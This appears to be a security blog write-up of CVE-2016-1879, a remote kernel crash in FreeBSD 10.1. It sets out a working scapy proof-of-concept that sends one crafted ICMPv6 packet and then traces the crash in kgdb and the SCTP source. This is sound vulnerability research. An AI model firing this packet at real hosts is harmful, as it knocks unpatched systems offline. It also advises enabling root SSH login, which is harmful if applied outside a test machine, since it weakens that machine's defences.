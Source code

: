 ```yaml
---
layout:	   post
title:		 CVE-2016-1879 FreeBSD kernel crash
author:		 wooy0ung
tags:		   cve
category:  exploit
---
```



>[Analysis Environment]  
>system: FreeBSD 10.1 release amd64  
>attack machine: ubuntu 16.04.3 amd64  
<!-- more -->


You can get more information in this website:   
[FreeBSD Remote DoS Exploit](http://blog.ptsecurity.com/2016/01/severe-vulnerabilities-detected-in.html)  

reference to compile bsd kernel:
[]()

promise your bsd kernel can dump core after crashing
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x001.png)

open your bsd ssh permission
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x002.png)
change it into
```
$ vi /etc/ssh/sshd_config
PermitRootLogin yes
```

get mac & ipv6，-I argument means network card of your ubuntu
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x003.png)

poc.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
 
import argparse
from scapy.all import *
 
def get_args():
    parser = argparse.ArgumentParser(description='#' * 78, epilog='#' * 78)
    parser.add_argument("-m", "--dst_mac", type=str, help="FreeBSD mac address")
    parser.add_argument("-i", "--dst_ipv6", type=str, help="FreeBSD IPv6 address")
    parser.add_argument("-I", "--iface", type=str, help="Iface")
    options = parser.parse_args()
 
    if options.dst_mac is None or options.dst_ipv6 is None:
        parser.print_help()
        exit()
 
    return options
 
if __name__ == '__main__':
    options = get_args()
 
    sendp(Ether(dst=options.dst_mac) / IPv6(dst=options.dst_ipv6) / ICMPv6DestUnreach() / IPv6(nh=132,
                                                                                               src=options.dst_ipv6,
                                                                                               dst='fe80::230:56ff:fea6:648c'),
          iface=options.iface)
```

execute poc.py bsd will crash，and crash files generated in /var/crash
```
$ python poc.py -m 00:0c:29:b9:1f:0b -i fe80::20c:29ff:feb9:1f0b -I ens33
.
Sent 1 packets.
```

ICMPv6DestUnreach()：send a error icmp package
IPv6(nh=132,...)：nexthread=132
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x004.png)

cd to /usr/obj/usr/src/sys/MYKERNEL/，and launch kgdb to debug crash core
```
$ kgdb kernel.debug /var/crash/vmcore.1 
```
input "bt" to get stack backtrace
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x005.png)

open /usr/src/sys/kern/uipc_mbuf.c
```
/*
 * Copy data from an mbuf chain starting "off" bytes from the beginning,
 * continuing for "len" bytes, into the indicated buffer.
 */
void
m_copydata(const struct mbuf *m, int off, int len, caddr_t cp)
{
  u_int count;

  KASSERT(off >= 0, ("m_copydata, negative off %d", off));
  KASSERT(len >= 0, ("m_copydata, negative len %d", len));
  while (off > 0) {
    KASSERT(m != NULL, ("m_copydata, offset > size of mbuf chain"));//第一个m的assert
    if (off < m->m_len)
      break;
    off -= m->m_len;
    m = m->m_next;
  }
  while (len > 0) { //884行
    KASSERT(m != NULL, ("m_copydata, length > size of mbuf chain")); //885行
        //这里以下不重要
        //这里以下不重要
    count = min(m->m_len - off, len);
    bcopy(mtod(m, caddr_t) + off, cp, count);
    len -= count;
    cp += count;
    off = 0;
    m = m->m_next;
  }
}
```
kernel stop by "while(len > 0) { KASSERT(m != NULL...)..."，maybe m=m->m_next <-- 0

backtrace to last function
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x006.png)

open /usr/src/sys/netinet6/sctp6_usrreq.c
```
void sctp6_ctlinput(int cmd, struct sockaddr *pktdst, void *d)
{
  struct sctphdr sh;
  struct ip6ctlparam *ip6cp = NULL;
  uint32_t vrf_id;

  vrf_id = SCTP_DEFAULT_VRFID;

  if (pktdst->sa_family != AF_INET6 ||
      pktdst->sa_len != sizeof(struct sockaddr_in6))
    return;

  if ((unsigned)cmd >= PRC_NCMDS)
    return;
  if (PRC_IS_REDIRECT(cmd)) {
    d = NULL;
  } else if (inet6ctlerrmap[cmd] == 0) {
    return;
  }
  /* if the parameter is from icmp6, decode it. */
  if (d != NULL) {
    ip6cp = (struct ip6ctlparam *)d;
  } else {
    ip6cp = (struct ip6ctlparam *)NULL;
  }

  if (ip6cp) {
    /*
     * XXX: We assume that when IPV6 is non NULL, M and OFF are
     * valid.
     */
    /* check if we can safely examine src and dst ports */
    struct sctp_inpcb *inp = NULL;
    struct sctp_tcb *stcb = NULL;
    struct sctp_nets *net = NULL;
    struct sockaddr_in6 final;

    if (ip6cp->ip6c_m == NULL)
      return;

    bzero(&sh, sizeof(sh));
    bzero(&final, sizeof(final));
    inp = NULL;
    net = NULL;
    m_copydata(ip6cp->ip6c_m, ip6cp->ip6c_off, sizeof(sh),
        (caddr_t)&sh);
    
        ...
        后面不重要
```
type of "d" change by "ip6cp = (struct ip6ctlparam *)d"

get "ip6cp"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x007.png)

we can confirm "m->m_next=NULL"，and "len=88"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x008.png)

because of triggering KASSERT，kernel would crash